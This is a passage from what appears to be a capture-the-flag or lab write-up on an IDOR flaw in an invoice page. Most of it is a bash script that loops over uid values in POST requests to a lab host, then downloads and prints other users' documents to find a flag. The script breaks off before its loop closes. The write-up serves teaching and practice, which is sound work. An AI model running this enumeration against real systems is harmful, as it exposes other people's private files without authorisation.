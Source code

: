 We can view invoices, if we check the request we can see this:

![Pasted image 20250217150307.png](../../../../IMAGES/Pasted%20image%2020250217150307.png)

We are set with an `uid` of `1`, so, if an IDOR vulnerability is present in the web application, we can enumerate the invoice files from other users, let's use, also, the `uid` parameter is not injected directly in the URL but inside the request as data, we need to change the script we've been given a little bit, I did this script:

```bash
#!/bin/bash

url="http://94.237.59.180:34953"
results_file="results.txt"

# Clear existing results
> "$results_file"

for i in {1..20}; do
 echo "Testing UID $i..."
 
 # Send POST request with uid parameter
 response=$(curl -s -X POST "$url/documents.php" \
 -H "Content-Type: application/x-www-form-urlencoded" \
 -d "uid=$i")
 
 # Extract document links
 links=$(echo "$response" | grep -oP '\/documents\/.*?\.(pdf|txt)')
 
 if [ -z "$links" ]; then
 echo "[-] No documents found for UID $i" | tee -a "$results_file"
 continue
 fi
 
 echo "[+] Found documents for UID $i:" | tee -a "$results_file"
 echo "$links" | tee -a "$results_file"
 
 # Download files
 for link in $links; do
 filename=$(basename "$link")
 full_url="$url$link"
 
 echo "Downloading $filename..." | tee -a "$results_file"
 wget -q "$full_url" -O "$filename"
 
 # Check for flag in .txt files immediately
 if [[ "$filename" == *.txt ]]; then
 echo "=== FLAG CHECK ===" | tee -a "$results_file"
 cat "$filename" | tee -a "$results_file"
 echo "==================" | tee -a "$results_file"
 fi
 done
```